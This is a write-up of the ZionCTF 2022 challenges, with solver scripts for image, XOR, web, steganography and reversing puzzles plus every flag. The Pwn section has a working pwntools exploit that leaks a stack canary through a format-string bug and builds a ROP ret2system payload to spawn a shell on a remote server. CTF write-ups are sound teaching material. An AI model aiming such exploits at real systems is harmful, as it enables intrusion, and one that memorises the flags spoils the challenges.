

# ZionCTF 2022

## Overview

Title                                                                      | Category         | Points | Flag
-------------------------------------------------------------------------- | ---------------- | ------ | ------------------------------
[Zip-Zap-Joe                 ](#general-skills)           | General Skills        | 15     | `zionctf{We1C0m3_t0_7H3_Z1On_C7F_Obl4di0B14Da}`
[Xor-Pandorum                   ](#crypto)           | Cryptography        | 15     | `zionctf{ju5t_7he_r3gul4r_x0r_s7uff_yeetyeet}`
[Low-on-Caffeine                   ](#web-1)                | Web Exploitation          | 15     | `zionctf{av01d_th1nk1n8_7o0_mucH}`
[High-on-Caffeine                   ](#web-2)                | Web Exploitation          | 15     | `zionctf{chr0m3_chr0m3_chr0m3_I_d0n7_lik3_a4gl0md1_I_c4n7_av0id}`
[eXamine-Search-Sabotage                  ](#web-3)                | Web Exploitation          | 35     | `zionctf{uh_0h_y0u_f0und_th3_DB!_55ak9prmnQY1w}`
[Vaccum                    ](#steg-1)                | Steganography          | 20     | `zionctf{Wh1t3_spac3s_are_s0_fun_hsa7815gij}`
[Mediaphile                    ](#steg-1)                | Steganography          | 40     | `zionctf{H4ck-th3-v1d30-uWe98q17}`
[Secret                    ](#rev)                | Reverse Engineering          | 30     | `zionctf{r3VeR5e_m3_p1e453_ff033}`
[Dummy-Login-Duhh                    ](#pwn)                | Binary Exploitation          | 100     | `zionctf{r0p_A1nT_T4ht_HaRd_6bfc}`

<hr>

## General Skills

**Challenge**

Here's the [link](Writeup-files/General-Skills/gs-15-vs.zip) to a zip file. Can you recover the flag?

**Solution**

We unzip the file and find that there is directory called chall with a png file "1.png" & a directory "1". This goes on recursively until 1023. So there are in total 1024 png images. 

I moved all the images from all the sub directories into a separate folder using

`find ./chall/ -type f -name "*.png" -exec mv "{}" ./img/ \; `

Looking at the images, it was pretty clear we need to merge these 1024 images into one, most probably 32x32.


I couldn't find an online tool to merge these many images, so after some time wasting, I wrote a simple script to merge them [exploit.py](Writeup-files/General-Skills/exploit.py)

```python
import cv2
import numpy as np


horizontal = cv2.imread("./img/"+"1"+".png")
for i in range(2,33):
	img = cv2.imread("./img/"+str(i)+".png")
	horizontal = np.concatenate((horizontal,img), axis=1)

vertical = horizontal
for i in range(1,32):
	horizontal = cv2.imread("./img/"+str(i*32+1)+".png")
	for j in range(2,33):
		img = cv2.imread("./img/"+str(i*32+j)+".png")
		horizontal = np.concatenate((horizontal,img), axis=1)
	vertical = np.concatenate((vertical,horizontal), axis=0)

cv2.imwrite('qr.png',vertical)
#cv2.imshow('vertical',vertical)
#cv2.waitKey(0)

```

After combining we get a QR image.
<br>
<div align="center">

</div>


Scanning the qr gives us the flag


**Flag**
```
zionctf{We1C0m3_t0_7H3_Z1On_C7F_Obl4di0B14Da}
```

<hr>

## Crypto

**Challenge**

Will you be able decrypt the encrypted flag?
May the XOR be with you this time.
Anyways, here's the [zip](Writeup-files/Crypto/crypto-10-vs.zip) file :)

**Solution**

Unzipping the zip gives two files [encrypt.py](Writeup-files/Crypto/encrypt.py) and [encrypted_flag](Writeup-files/Crypto/encrypted_flag.txt).

This was a very straight forward challenge, As the flag was Xorred twice and then left shifted once. We just had to right shift the encrypted flag and then Xor it in the same manner.

Here's the [script](Writeup-files/Crypto/exploit.py). And we get the flag

```python

enc = open("encrypted_flag.txt",'r')
x = enc.read()
crypt=list(x)
base=1
sum=1
l=len(crypt)

for i in range(l):
    crypt[i]=chr(ord(crypt[i])>>1)

for i in range(0,l+1,2):
    for j in range(i):
        crypt[j]=chr(ord(crypt[j])^1337)
    base<<=1
    sum^=base

for i in range(1,l+1,2):
    for j in range(i):
        crypt[j]=chr(ord(crypt[j])^42)
    base<<=1
    sum^=base

dec_flag="".join(crypt)
print(dec_flag) 

```

**Flag**
```
zionctf{ju5t_7he_r3gul4r_x0r_s7uff_yeetyeet}
```

<hr>

## Web-1

**Challenge**

Can you find the hidden flag? Here's the [link](http://143.244.138.133:4000/).

**Solution**

Welcome page greets us with
 

The link takes us to a series of webpages containing dummy text Lorem Ipsum word by word in recursive links along with a textbox and a submit button. Every link has a fixed time period after which, we are redirected to the home page.

 

I just randomly started trying different numbers, after observing that the range of numbers was less than 1500. I tried a few well known numbers in our community 69, 420, 1337.

And Voila at webpage 1337, it showed finally. Viewing the source code and the js script, provided the webpage we need to go to for the flag 

 


`/807d0fbcae7c4b20518d4d85664f6820aafdf936104122c5073e7744c46c4b87`

 


**Flag**
```
zionctf{av01d_th1nk1n8_7o0_mucH}
```

<hr>

## Web-2

**Challenge**

Duh? Here's thy [link](http://143.244.138.133:5000/).

**Solution**

First of all Nice try but that's a Rick-Roll in that redirect.


So tried the link in Firefox and .. 


The text was base64 encoded, after decoding it had a string `JFIF` so it was a jpeg. Used [this](https://base64.guru/converter/decode/file) online tool to convert the base64 string to a jpeg file.

<div align="center">

</div>

For some reason, I started analyzing the jpeg image for hints using steganography and other tools. When the hint was straight in front of my eyes `Robot == robots.txt`

Found this Base64 string
`dGhyZWVJZGlvdHNTY2VuZS50eHQ=` 
Decoded 
`threeIdiotsScene.txt`

Another webpage 



Ab toh `POST` Masterji ko ghar leke hi jayenge

So sent a post request to http://143.244.138.133:5000/threeIdiotsScene.txt using Postman or Burp and got the flag

**Flag**
```
zionctf{chr0m3_chr0m3_chr0m3_I_d0n7_lik3_a4gl0md1_I_c4n7_av0id}
```

<hr>

## Web-3

**Challenge**

There is a weakness in this very basic [website](http://143.244.138.133:13000/). Can you get the flag by retrieving data you shouldn't be able to ?

**Solution**

So it is a basic login page. Fiddled around a bit, tried different things didn't find anything concrete. 

Loaded the site on Burp and looked at the POST request sent on /page  while logging into the page. 
Found another parameter `view-source=false`

Set this parameter to true and send the POST request


Found Two cookies

ZionCTFHint1 = `source_code_is_in_ /index.js`

ZionCTFHint2 = `photos_are_in_1_level_deep_subfolder_ /images/ `

Loaded the source code 
<div align="center">

</div>
<br>


Found a [database](Writeup-files/Web/accounts.db) on the home page/account.db

Loaded the database on an online sql viewer and selected the table users to get the flag


**Flag**
```
zionctf{uh_0h_y0u_f0und_th3_DB!_55ak9prmnQY1w}
```

<hr>

## Steg-1

**Challenge**

Here's your [link](http://143.244.138.133:3000/). Enjoy :)

**Solution**

So the link takes us to a Taylor Swift song "Blank Space". The first thing which popped in my mind was white space steganography.

Tried stegsnow directly on html didn't find anything. 


After looking at the html in a text editor found some unicode white space characters.

Found this online [Tool](https://330k.github.io/misc_tools/unicode_steganography.html) which works on Unicode Steganography with Zero-Width Characters

Decoded this Hidden Text from the html -> `0nest3pcl0ser`

Submit this secret on the website and got a [text file](Writeup-files/Steg/will_you_take_that_road.txt) 

Then used stegsnow on the text file to get the flag 

```stegsnow -C will_you_take_that_road.txt```

**Flag**
```
zionctf{Wh1t3_spac3s_are_s0_fun_hsa7815gij}
```

<hr>

## Steg-2

**Challenge**

Here is the [link to a file](Writeup-files/Steg/video.mkv). Can you find the flag within these pixels and bits ?

**Solution**

This was an nice challenge by the organizers, which required the players to look around and experiment with a lot things. It took me a lot of time in figuring first few steps though (could have been 1st :drop_of_blood:) 

First I tried finding all the metadata of the video file and looked for anything different. The video had all kind of noise in the frames. 

There were subtitles in the mkv so ran strings on video

```
Look at the frames
Put together a message from the noise

"uWe98q17"
[@info] the quoted key lies just before this sentence [@info]

replace the questions in the message with the key

and submit your flag!
```

From the subtitles it is clear we need to extract the frames and make some sense of the white noise on the left bottom side of the frames.

First extracted the frames using 

`ffmpeg -i video.mkv frames%04d.png `

So, a total of 79 frames were found like these


  

After getting the frames I got stuck for a bit. I tried all types of steg tool on these pngs but was not able to extract any data from individual frames. 

Then I remembered we can apply bitwise operations on pixels to combine or delete noise. So I started writing a python script using cv2 to apply different bitwise operations on the frames.

Here's the final [script](Writeup-files/Steg/exploit.py) 

```python
import cv2

bitand = cv2.imread("./Frames/frames0001.png")
bitor = bitand
bitxor = bitand


for i in range(2,80):
	if (i<10):
		img = cv2.imread("./Frames/frames000"+str(i)+".png")
	else:
		img = cv2.imread("./Frames/frames00"+str(i)+".png")

	bitand = cv2.bitwise_and(bitand,img)
	bitor = cv2.bitwise_or(bitor,img)
	bitxor = cv2.bitwise_xor(bitxor,img)

#cv2.imshow('and',bitand)
#cv2.imshow('or',bitor)
#cv2.imshow('xor',bitxor)
cv2.imwrite('or.png',bitor)

#cv2.waitKey(0)
```

So I ran all three operations on all the frames and got a QR in 'OR' operation.

     

But this QR was a bit corrupted and not scannable. I had some knowledge about the formation of QR code and using some Photoshop, I was able to correct the [QR](Writeup-files/Steg/qr_correct.png).


<div align="center">

</div>
<br>

Scanned the QR and got `zionctf{H4ck-th3-v1d30-????????}`

Replaced the `????????` with `uWe98q17` as given in subtitles and got the flag

**Flag**
```
zionctf{H4ck-th3-v1d30-uWe98q17}
```

<hr>

## Rev

**Challenge**

Given [file](Writeup-files/Rev/rev1)

**Solution** 

Loaded the binary in IDA, saw an array containing signed integer and some calculations done on a string (dest). Finally its compared to the array, if equals it puts "That's the correct flag!".


If condition in the while loop checked for even numbers.

After reversing the basic calculations, the dest array contained the ascii values of flag in reverse order.

The last number in the array was -134 but according to my assumption the last char is 'z' so ascii value 122. 

`256 + (-134) = 122`

So just had to add 256 to all the negative value to get the flag.

Final [Script](Writeup-files/Rev/exploit.py)

```python

array = [88, 114, 18, 109,73,-95,70,108,32,107,84,102,99,-110,42,-98,90,-108,52,127,104,-127,58,-101,-122,-115,-125,-120,-127,-110,0x80,-101]
b = []
for i in range(32):
	b.append(0)
j =32
for x in range(32):
	b[x] = array[x] - x - 2*j
	if x&1 == 0:
		b[x] = b[x] + 5 + 3*j	
	j = j-1
#print(b)
flag = ""
for i in b:
	if i>0 :
		flag += chr(i)
	else:
		flag += chr(i+256)
print(flag[::-1])

```  

**Flag**
```
zionctf{r3VeR5e_m3_p1e453_ff033}
```

<hr>

## Pwn

**Challenge**

I tried making a dummy login program and compiled & hosted it on my default ubuntu 18.04 server. Try it out: netcat 143.244.138.133 8002

You can also refer to this file : [libc.so.6](Writeup-files/Pwn/libc.so.6) along with the uploaded binary [rop](Writeup-files/Pwn/rop)

**Solution**

So, on using `checksec` on the binary, we can find that the following mitigations are applied:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

On reversing the binary using IDA, we can find two functions `getName()` and `getPasswd()`. `getName()` is vulnerable to format string and buffer overflow. `getPasswd()` is vulnerable to buffer overflow. 
We can easily exploit the format string bug to leak the stack canary, some valid libc address and some address from the ELF. Since the ELF and libc leak will be at fixed offsets from the ELF base and the libc base respectively, we can easily get the elf base and the libc base address. 

After that, it's pretty straight forward. We just need to fill some padding, add canary after it, fill 8 more bytes and thus , we'll get a control over the RIP. 

We'll use a ret gadget to make sure that the stack is aligned. And, we can simply perform a ret2system (calling system("/bin/sh") to get a shell )

Here's the [exploit](Writeup-files/Pwn/exploit.py)

```python
from pwn import *

elf = context.binary = ELF("./rop")
p = remote("143.244.138.133",8001)
# gdb.attach(p,"init-pwndbg")
libc = ELF("./libc.so.6")
p.recvuntil("Enter your username: ")
p.sendline("%13$p.%21$p^%15$p")

leak_1 = p.recvuntil(".")[6:-1]
leak_2 = p.recvuntil("^")[:-1]
leak_3 = p.recvline()

leak_1 = int(leak_1,16)
leak_2 = int(leak_2,16)
canary = int(leak_3,16)

elf.address = leak_1 - 0x94d
libc.address = leak_2 - 0x21c87
system = libc.sym.system
binsh = next(libc.search(b'/bin/sh'))
p.recvuntil("Please enter your password: ")

rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi","ret"])[0]
payload = b'a'*72 + p64(canary)+b'a'*8+p64(ret)+p64(pop_rdi) + p64(binsh)+p64(system)

p.sendline(payload)
p.interactive()

```

Then just `cat flag.txt`

**Flag**
```
zionctf{r0p_A1nT_T4ht_HaRd_6bfc}
```
<hr>